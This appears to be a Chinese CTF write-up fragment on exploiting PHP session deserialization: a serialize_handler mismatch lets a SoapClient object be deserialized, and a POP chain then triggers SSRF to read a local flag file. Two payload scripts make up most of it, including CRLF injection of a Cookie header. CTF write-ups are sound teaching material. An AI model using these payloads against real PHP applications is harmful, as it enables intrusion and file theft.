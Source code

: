 思路就是先控制 ini\_set 的参数指定 serialize\_handler 为 php\_serialize, 传参 sess 为反序列化 SoapClient 的 payload, 然后去掉所有 get post 参数访问一次页面触发反序列化, 最后利用已知 pop 链调用 SoapClient \_\_call 方法来触发 ssrf

ssrf 则先利用 php 的原生类 GlobIterator 来查找根目录下以 f 开头的文件, 然后利用 SplFileObject 读取 flag

pop 链 payload

```php
<?php

class A
{
    public $a;
    public $b;
}

class B
{

}

class C
{
    public $a;
    public $c;
}


$cc = new C();
$cc->a = 'xxxx';

$a = new A();
$a->a = '0e215962017';
$a->b = $cc;

$c = new C();
$c->c = $a;

$b = new B();
$b->a = $c;

echo serialize($b);
```

ssrf payload

```php
<?php
    
// $a = new SoapClient(null,array('location' => 'http://127.0.0.1/flag.php?a=GlobIterator&b=/f*', 'user_agent' => "111\r\nCookie: PHPSESSID=c9urdtg4kjp5jl36mrl44qlsah", 'uri' => 'test'));

$a = new SoapClient(null,array('location' => 'http://127.0.0.1/flag.php?a=SplFileObject&b=/f1111llllllaagg', 'user_agent' => "111\r\nCookie: PHPSESSID=c9urdtg4kjp5jl36mrl44qlsah", 'uri' => 'test'));
$b = serialize($a);
echo '|'.urlencode($b);
```
